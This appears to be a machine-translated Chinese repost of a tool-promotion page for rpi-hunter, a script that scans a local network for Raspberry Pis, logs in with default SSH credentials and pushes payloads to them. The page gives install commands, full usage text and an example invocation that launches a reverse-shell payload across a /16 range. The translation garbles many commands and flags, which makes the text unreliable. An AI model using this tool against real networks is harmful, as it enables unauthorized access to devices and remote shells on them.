 # RPI-Hunter:在 LAN Raspberry 上自动发现和投放有效载荷

> 原文：<https://kalilinuxtutorials.com/rpi-hunter/>

当您的 LAN 上有多个 Raspberry Pi 使用默认或已知凭证时，rpi hunter 非常有用，可以自动向它们发送命令/有效负载。

**也可以理解为-[VSHG:GnuPG](https://kalilinuxtutorials.com/vshg-gnu-privacy-guard/)T3 的独立插件**

**安装**

*   安装依赖项:sudo pip install-U arg parse term color 和 sudo apt-y install ARP-scan t shark ssh pass
*   下载 rpi-hunter: git 克隆 https://github.com/BusesCanFly/rpi-hunter
*   导航到 rpi-hunter: cd。/rpi-亨特
*   使 rpi-hunter.py 可执行:chmod +x rpi-hunter.py
*   一行变体:sudo pip install-U arg parse term color & & sudo apt-y install ARP-scan t shark ssh pass & & git clone https://github.com/BusesCanFly/rpi-hunter & & CD。/rpi-hunter & & chmod+x rpi-hunter . py

**用途**

**用法:rpi-hunter . py[-H][–LIST][–no-scan][-f IP _ LIST][-T1][-c CREDS][–PAYLOAD PAYLOAD][-H HOST][-P PORT]
[–safe][-q]
可选参数:
-h，–help 显示此帮助消息并退出
–列出可用负载
–no-scan 禁用 ARP 扫描
-r IP_RANGE 要扫描的 IP 范围【T7/scan/RPI _ list)
-u UNAME ssh ' ing 时使用的用户名
-c CREDS ssh ' ing 时使用的密码
-PAYLOAD PAYLOAD(的名称，或 raw)PAYLOAD[例如。reverse_shell 或' whoami']
-H HOST(如果使用 reverse_shell 有效负载)用于反向 shell 的主机
-P PORT(如果使用 reverse_shell 有效负载)用于反向 shell 的端口
-安全打印 sshpass 命令，但不要执行它
-q 不要打印横幅
示例用法:。/rpi-hunter . py-r 192 . 168 . 0 . 0/16–有效载荷 reverse _ shell-H 127 . 0 . 0 . 1-P 1337
运行。/rpi-hunter . py–list 以查看可用的有效负载。
有效载荷可由列表中的有效载荷名称指定，或作为原始输入
例如。–payload reverse _ shell 或–payload[您的 cli 命令在此处]**

**免责声明**

标准的互联网乐趣免责声明适用。不要犯罪，要负责任。我不会对你和 rpi-hunter 做的任何事负责。

[**Download**](https://github.com/BusesCanFly/rpi-hunter)